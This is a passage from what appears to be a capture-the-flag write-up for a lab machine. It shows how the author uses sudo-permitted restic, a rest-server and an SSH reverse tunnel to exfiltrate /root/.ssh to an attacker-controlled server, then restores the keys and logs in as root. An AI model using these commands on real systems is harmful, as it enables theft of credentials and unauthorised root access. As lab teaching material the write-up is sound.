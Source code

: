 #### Install restic 

```
$ wget https://github.com/restic/rest-server/releases/download/v0.9.7/rest-server-0.9.7-linux-amd64.gz
$ gzip -d rest-server-0.9.7-linux-amd64.gz
$ sudo cp rest-server-0.9.7-linux-amd64 /usr/local/bin/rest-server
```

#### From attacker :

```
$ mkdir /tmp/backup_restic && chmod 777 /tmp/backup_restic   (create the folder where repository will be create from victim)
$ touch /tmp/backup_restic/.htpasswd                 
$ htpasswd -B /tmp/backup_restic/.htpasswd zaza  (create a password for user zaza to authenticate into the repo from victim)
$ rest-server --path /tmp/backup_restic  --private-repos --append-only  
$ ssh -R 8000:127.0.0.1:8000 -i id_rsa bolt@10.10.10.159   (forward local port 8000 of rest-server to the remote victim machine with  the same port)
```

#### From victim:

```
$ restic init --repo  rest:http://zaza:zaza@127.0.0.1:8000/zaza           (create the zaza repo in the remote server)
$ sudo restic backup  -r rest:http://zaza:zaza@127.0.0.1:8000/zaza /root/.ssh  (backup the root folder /root/.ssh in the remote server)
```

Finally restoring this backup from the attacker like :

```
$ restic restore latest --target restore -r rest:http://zaza:zaza@127.0.0.1:8000/zaza
enter password for repository: 
repository bc57281b opened successfully, password is correct
restoring <Snapshot 1e87adc8 of [/root/.ssh ] at 2019-10-24 21:17:11.536993386 +0000 UTC by root@bolt> to restore
```

### Root Dance

Here i have the root keys for ssh , so i can just do :

```
$ ssh -i id_rsa root@10.10.10.159
root@bolt:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bolt:~# cat /root/root.txt | wc -c
33
root@bolt:~# 
```

And we can see why we can't create any rev shell to our box :

```
$ iptables-L
....
...
Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             10.0.0.0/8           tcp flags:FIN,SYN,RST,ACK/SYN
DROP       udp  --  anywhere             10.0.0.0/8       
...
...
```
